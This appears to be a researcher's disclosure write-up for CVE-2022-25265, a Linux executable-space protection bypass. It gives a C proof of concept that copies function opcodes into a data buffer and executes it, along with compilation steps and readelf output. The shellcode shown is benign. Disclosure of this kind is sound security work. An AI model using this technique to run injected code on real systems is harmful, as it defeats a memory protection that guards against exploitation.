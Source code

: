 ```yaml
---
title: CVE-2022-25265 - Executable Space Protection Bypass
date: 2022-02-19 09:00:00
tags:
    - linux
    - gcc
    - xoreaxeax
    - cve
    - poc
category: tech
keywords:
    - CVE-2022-25265
---
```


# author:[[xoreaxeax]](https://github.com/x0reaxeax)

As it turns out, binary files built either under old Linux systems lacking NX or IA32 systems with NX,  
which do **NOT** create `PT_GNU_STACK` header will be marked and treated with `exec-all` personality flag by the Linux kernel.  
This allows for read/write/exec of bytes located in supposedly non-executable and non-writable regions of binary files, therefore **completely bypassing executable-space protection**.  

The flawed implementation can be found here: 
https://github.com/torvalds/linux/blob/master/arch/x86/include/asm/elf.h#L280  

To achieve this, "historical" building tools will be used for building the binary.  
In this case, specifically `GCC 3.2.2` running on x86 Slackware9 with Linux 2.4.20.  
The resulting binary file will be executable under modern Linux systems, in this case **Linux 5.16.1**  

A CVE ID [CVE-2022-25265](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-25265) has been assigned to this vulnerability.  

The very same effect ***MIGHT*** be achievable by using specific linker arguments/scripts, although this has not been verified.  

The following code will copy assembled bytes of function `dummy()` to character array `harmless_str_buf` and execute the destination array as a function.  

```c
/* demo.c - https://github.com/x0reaxeax/exec-prot-bypass/blob/main/demo.c */
#define NULL    ((void *) 0)
#define POC

#define BUFSIZE 128

char str[] = "noexec bypassed!\n";

/**
 * This buffer will be loaded with dummy()'s opcodes
*/
char harmless_str_buf[BUFSIZE] = "xrandomdatarandomdatarandomdatarandomdatarandomdatarandomdatarandomdatarandomdatarandomdatarandomdatarandomdatarandomdatarandomx";

/**
 * dummy function - target shellcode
 * opcodes of this function will be copied to harmless_str_buf.
 * included for ease of POC demonstration
*/ 
void dummy(void) {
    __asm__ volatile (
                    ".intel_syntax noprefix;"
                    "mov eax, 4;"     /* sys_write */
                    "mov ebx, 1;"     /* stdout    */
                    "mov ecx, %[str];"
                    "mov edx, 17;"    /* strlen    */
                    "int 0x80;"       /* syscall   */
                    "int3;"           /* boundary  */
                    ".att_syntax;"
                    :: [str] "r" (str)
                    : "eax", "ebx", "ecx", "edx"
    );
}

/**
 * copies opcodes from `dummy()` to destination buf
*/ 
void (*copy_opcodes(unsigned char *output, unsigned int bufsiz)) (void) {
    unsigned int i = 0;
    unsigned char *dummy_ptr = (unsigned char *) dummy;
    for (i = 0; i < bufsiz; i++) {
        unsigned char opcode = *(dummy_ptr + i);
        output[i] = opcode;

        if (opcode == 0xcc) {
            /* boundary hit */
            break;
        }
    }

    /* return the address of output buffer, which will be executed as a function */
    return (void (*)()) output;
}

int _start(void) {
#ifdef POC  /* execute opcodes in harmless_str_buf */
    void (*pfunc)() = NULL;

    pfunc = copy_opcodes(harmless_str_buf, BUFSIZE);
    pfunc();
#else           /* execute dummy() to demonstrate it's purpose */
    dummy();
#endif

    return 0;   /* segfault */
}
```

**Compilation:**
`$ gcc -nostdlib demo.c`

The lack of `PT_GNU_STACK` can be seen in the output of GNU binutil's `readelf(1)`:
```
$ readelf -l demo.elf32

Elf file type is EXEC (Executable file)
Entry point 0x80480e7
There are 2 program headers, starting at offset 52

Program Headers:
  Type      Offset      VirtAddr    PhysAddr    FileSiz MemSiz  Flg Align
  LOAD      0x000000    0x08048000  0x08048000  0x00118 0x00118 R E 0x1000
  LOAD      0x000120    0x08049120  0x08049120  0x000a0 0x000a0 RW  0x1000

Section to Segment mapping:
  Segment Sections...
  00      .text
  01      .data
```

A demonstration with reverse shell can be seen [here](https://www.youtube.com/watch?v=zj5z7eB_frk)